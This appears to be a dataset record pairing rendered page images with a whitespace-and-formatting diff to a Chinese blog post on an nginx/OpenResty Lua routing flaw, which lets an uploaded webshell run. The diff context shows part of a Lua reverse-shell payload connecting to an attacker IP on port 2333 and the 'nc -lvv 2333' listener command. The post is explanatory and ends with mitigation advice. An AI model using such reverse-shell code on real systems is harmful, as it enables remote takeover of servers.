

Before and after one commit to ms2008/ms2008.github.io, a Jekyll site: the page built from _posts/2017-06-05-security.md, in a window 1280 px wide and 1400 px high, scrolled down 1556 px. Shown: the whole window at 91% size, without its empty margins (233-1279 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fix format for indent

````diff
--- a/_posts/2017-06-05-security.md
+++ b/_posts/2017-06-05-security.md
@@ -46,7 +46,7 @@
 └── shell.lua
 ```
 
-这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹shell到攻击者的地址）：
+这时候去请求 `/app/shell`，就自然的去连接这个 webshell 了，这个 `shell.lua` 看起来是这个样子（反弹 shell 到攻击者的地址）：
 ```lua
 local sock = ngx.socket.tcp()
 local ok, err = sock:connect("192.168.3.5", "2333")
@@ -63,7 +63,7 @@
 sock:close()
 ```
 
-我先在我的攻击机上执行（准备接收反弹回来的shell）
+我先在我的攻击机上执行（准备接收反弹回来的 shell）
 ```
 nc -lvv 2333
 ```
@@ -80,9 +80,9 @@
 接下来的就是去提权了。。。
 
 
-要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致nginx.conf可读性较差。
+要避免这个问题，就是要在匹配路径上做出更为严格的限制，但是这会导致 nginx.conf 可读性较差。
 
-我的建议是路由还是直接放在 lua 里完成，这样我们的 handler() 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化(相当于签名)的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。
+我的建议是路由还是直接放在 lua 里完成，这样我们的 `handler()` 可以获得更为安全的签名保护。反观今天的测试，其实本质上还是因为我们执行了不该信任的代码(没有签名)，最终导致系统沦陷。如果使用 lua 模块化（相当于签名）的路由方式，就可以避免这个问题（即使你拿到了上传或注入的漏洞，最多也就是拖个库，也不会拿到整个系统的权限）。
 
 ------
 
````
